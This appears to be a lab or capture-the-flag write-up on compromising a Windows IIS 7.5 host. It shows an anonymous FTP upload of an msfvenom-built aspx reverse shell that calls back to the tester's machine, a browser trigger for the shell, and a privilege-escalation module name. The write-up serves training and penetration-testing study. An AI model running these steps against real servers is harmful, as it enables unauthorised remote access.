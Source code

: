 I had already ran enum on this. Not much.
Just an FTP server and a web Server.

ftp allows **anonymous login** with 
user: `ftp`
pass: `ftp`

Maybe I can upload a reverse php shell? - PHP was mentioned as I was researching exploits for **IIS 7.5** which came up in the nmap scan.

Creating an **aspx** reverse shell with msfvenom
https://book.hacktricks.xyz/shells/shells/msfvenom
```bash
$ msfvenom -p windows/shell/reverse_tcp LHOST=10.10.16.2 LPORT=8888 -f aspx > reverse_shell10-10-16-2-8888.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2872 bytes

```

Successfully uploaded
```bash
$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:nate): ftp
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put reverse_shell10-10-16-2-8888.aspx
local: reverse_shell10-10-16-2-8888.aspx remote: reverse_shell10-10-16-2-8888.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2909 bytes sent in 0.00 secs (38.5311 MB/s)
ftp> 

```

### Fire up reverse listener
using **multi/handler** with the **windows/shell/reverse_tcp** payload.

### Initiate the reverse shell
Navigate to http://10.10.10.5/reverse_shell10-10-16-2-8888.aspx in the browser.

Now have a shell as user: `inetsrv`
![[0db17cb4200340a7a296c5c8332812ea.png]]

# Internal Enumeration

```
c:\windows\system32\inetsrv>net user
net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            babis                    Guest                    
The command completed with one or more errors.
```

Cant access user folders.
Already did exploit suggester.

# PrivEsc


### Need to get more privs
windows/local/ms13_005_hwnd_broadcast